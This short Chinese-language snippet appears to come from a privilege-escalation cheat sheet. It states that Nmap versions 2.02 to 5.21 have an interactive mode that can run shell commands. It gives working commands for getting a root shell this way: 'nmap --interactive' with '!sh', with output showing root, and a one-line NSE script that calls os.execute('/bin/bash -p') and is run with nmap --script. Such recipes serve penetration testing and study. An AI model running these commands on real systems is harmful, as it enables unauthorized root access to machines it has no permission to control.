 较旧版本的 Nmap（2.02至5.21）带有交互模式，从而允许用户执行shell命令，使用 nmap -V 查看版本是否满足条件。

```
# 进入交互模式
nmap --interactive
# getshell
nmap> !sh
sh-3.2# whoami
root

```
echo "os.execute('/bin/bash -p')" > /tmp/shell.nse
nmap --script=/tmp/shell.nse 127.0.0.1